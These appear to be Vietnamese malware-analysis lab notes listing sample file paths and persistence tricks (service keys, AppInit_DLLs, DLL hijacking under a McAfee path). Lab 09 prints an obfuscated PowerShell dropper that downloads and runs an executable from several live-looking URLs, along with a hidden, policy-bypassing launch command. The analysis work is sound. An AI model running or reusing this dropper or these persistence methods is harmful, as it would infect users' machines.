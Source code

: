 # Lab 06

- Đường dẫn: C:\Windows\SysWOW64\trnsrun.exe

- Cách thức persistent: mã độc dùng registry key: HKLM\System\CurrentControlSet\Service

# Lab 07

- Đường dẫn: C:\Users\Gee\AppData\Roaming\Microsoft\Windows\OUTLLIB.DLL

- Cách thức persistent: mã độc dùng registry key: HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs

# Lab 08

- Đường dẫn: C:\ProgramData\McAfee\McUtil.dll

- Cách thức persistent: mã độc dùng key HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\McAfee cho file thực thi và kỹ thuật dll Hijack để thêm dll độc hại vào cùng file thực thi

# Lab 09

- Mã độc sẽ thực thi lệnh: powershell.exe -ExecutionPolicy Bypass -file C:\ProgramData\Microsoft\install.ps1 -WindowStyle Hidden

- File C:\ProgramData\Microsoft\install.ps1 là một lệnh powershell có chức năng:

  ```
  $Eaqekqdr='Rdihyhokr';$Qlidsvmgx='697';$Zekpiwafigy='Bznpimsdzhz';$Dvbarexgme=$env:userprofile+'\'+$Qlidsvmgx+'.exe';$Nyvgeunamuv='Qwlelligoxb';$Mgufpvaskhlz=..('n'+'ew-ob'+'ject') net.webclient;$Snotuzji='https://www.arfajbd.com/wp-admin/kx432434/*https://hefo.com/wp-content/5zuz9ir00606/*http://icloudgraphics.com/wp-content/o1cu7628/*https://bucketlistadventures.com/m5_edit_item/06605ld03197/*http://naavikschool.com/naavikschool.com/ooqvi7a0682/';.``'SPL`I`t'(''*)$Zwecplcmhnzc='Ofrhbvbgo';foreach($Sixenfhuvxlow in $Snotuzji){try{$Mgufpvaskhlz."d`Ow`LOad`FilE"($Sixenfhuvxlow, $Dvbarexgme);$Hjyeuxoehr='Fejljctrajft';If((..('G'+'e'+'t-Item') $Dvbarexgme)."L`E`N`GTH" -ge 26474) {[Diagnostics.Process]::"St`AR`t"($Dvbarexgme);$Pqabbqfxpvzeu='Nlkwrrxcr';break;$Spaskmwq='Evozmuqleiihk'}}catch{}}
  $Imjfroitwtypw='Mhweqwhphs'

  ```

  - Tạo và đặt các biến: Các biến $Eaqekqdr, $Qlidsvmgx, $Zekpiwafigy, $Dvbarexgme, $Nyvgeunamuv, $Mgufpvaskhlz, $Snotuzji, $Zwecplcmhnzc, $Hjyeuxoehr, $Pqabbqfxpvzeu, $Spaskmwq, và $Imjfroitwtypw được tạo và gán giá trị.
 
  - Tải về một tệp: Sử dụng đối tượng Net.WebClient, mã PowerShell này cố gắng tải về một tệp từ các URL đã liệt kê trong biến $Snotuzji và lưu tệp này vào vị trí được xác định bởi biến $Dvbarexgme.

  - Kiểm tra độ dài tệp và thực thi: Nếu tệp được tải về có độ dài (kích thước) lớn hơn hoặc bằng 26474 byte, nó sẽ được thực thi bằng cách sử dụng Diagnostics.Process.

# Lab 10
